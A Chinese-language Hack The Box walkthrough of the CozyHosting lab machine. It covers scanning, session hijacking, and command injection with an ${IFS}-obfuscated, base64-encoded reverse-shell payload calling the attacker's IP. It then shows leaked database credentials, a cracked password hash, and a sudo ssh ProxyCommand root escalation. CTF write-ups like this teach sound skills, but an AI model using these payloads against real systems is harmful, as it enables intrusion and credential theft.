IP:`10.10.11.230`

nmap扫描

```bash
┌──(kali㉿kali)-[~/htb/CozyHosting]
└─$ nmap -p- 10.10.11.230 --min-rate 10000 -oN nmap_ports
Starting Nmap 7.92 ( https://nmap.org ) at 2023-11-18 07:00 EST
Warning: 10.10.11.230 giving up on port because retransmission cap hit (10).
Stats: 0:00:29 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 46.43% done; ETC: 07:01 (0:00:32 remaining)
Nmap scan report for cozyhosting.htb (10.10.11.230)
Host is up (0.39s latency).
Not shown: 64345 closed tcp ports (conn-refused), 1187 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9001/tcp open  tor-orport

Nmap done: 1 IP address (1 host up) scanned in 67.33 seconds

```

80端口http界面


只有login能点进去


弱口令尝试失败



查看error界面为Spring Boot框架



9001端口界面



脚本扫描

```bash
┌──(kali㉿kali)-[~/htb/CozyHosting]
└─$ nmap -p 22,80,9001 10.10.11.230 -sC -sV -T4 -oN nmap_scripts
Starting Nmap 7.92 ( https://nmap.org ) at 2023-11-18 07:02 EST
Nmap scan report for cozyhosting.htb (10.10.11.230)
Host is up (0.44s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Cozy Hosting - Home
|_http-server-header: nginx/1.18.0 (Ubuntu)
9001/tcp open  http    SimpleHTTPServer 0.6 (Python 3.10.12)
|_http-title: Directory listing for /
|_http-server-header: SimpleHTTP/0.6 Python/3.10.12
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.71 seconds

```

Web目录枚举



枚举出的目录其中一个包含用户的JESSIONID



用JESSIONID替换原有cookie登录admin



存在一个提供ssh连接的功能



填写` kali`和`vpn`地址进行尝试







用` {IFS}` 替换空格



反弹shell生成



测试反弹shell



将空格进行替换

```bash
echo${IFS%??}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMi80MjQyIDA+JjE="${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash
```

还是有空格



URL再次编码



在kali上开启nc监听



安装jar查看器`jd-gui`





```java
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

postgresql数据库



```
username=kanderson&password=MRdEQuv6~6P9
```

登录数据库



```
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin

```





爆破（不知为何hashcat不能用）



用john



```
manchesterunited
```

ssh连接





user flag:

```
josh@cozyhosting:~$ cat user.txt
9d572e2bec77d894e9a30bd34e0900ed
```

root提权



<https://gtfobins.github.io/gtfobins/ssh/#sudo>



```
ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```



```
# cat root.txt
98291317931360700d3e6cac4143b765
```

